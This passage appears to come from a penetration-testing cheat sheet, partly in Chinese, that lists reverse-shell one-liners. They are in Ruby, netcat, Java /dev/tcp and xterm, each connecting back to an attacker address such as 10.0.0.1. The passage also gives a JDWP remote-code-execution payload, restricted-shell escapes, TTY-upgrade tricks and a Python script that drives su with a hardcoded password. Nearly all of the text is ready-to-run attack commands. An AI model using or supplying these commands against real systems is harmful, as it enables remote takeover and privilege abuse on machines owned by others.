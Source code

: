#### **Ruby**

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### **Netcat without -e \#1**

```text
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### **Netcat without -e \#2**

```text
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### **Java**

```text
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### **XTerm**

```text
xterm -display 10.0.0.1:1
```

#### JDWP RCE

```text
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### 使用限制壳

```text
# 极少数情况下
ssh bill@localhost ls -l /tmp
```

```text
nice /bin/bash
```

#### 交互式 TTY Shells

```text
/usr/bin/expect sh
```

```text
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# 如果您没有访问shell的权限，则使用su作为另一个用户执行一个命令 Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```
